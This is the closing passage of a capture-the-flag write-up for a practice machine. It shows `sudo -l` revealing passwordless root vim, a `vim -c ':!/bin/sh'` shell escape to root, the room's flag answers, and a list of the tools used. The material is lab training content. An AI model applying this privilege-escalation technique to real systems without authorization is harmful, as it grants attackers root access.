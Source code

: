 Answer: `sunbath`

### What can you leverage to spawn a privileged shell?

With `sudo -l` we can check, what we are allowed to do with root:


```bash
$ bash -i
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$
```

seems like we can use `vim` to spawn a privliged shell.

Answer: `vim`

### What's the root flag?

Lets try to spawn an interactive shell:
https://gtfobins.github.io/gtfobins/vim/


`vim -c ':!/bin/sh'`


```bash
$ vim -c ':!/bin/sh'

$ sudo vim


Press ENTER or type command to continue
# pwd
/
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```


Answer: `W3ll d0n3. You made it!`


## Thoughts:
This CTF is interesting and we have to search for a CVE, which could be interesting. Unfortunately I did a lot of troubleshooting on the Python Script regarding missing Modules and Syntax errors. That is why I didnt enjoy it as much as the others so far..

What did we learn?
- using `nmap` for scan open ports and versions
- using `gobuster` for search for hidden directories
- using `searchsploit` to find a vulnerablity
- using a python script to crack the password
- using `vim` to spawn an interactive shell






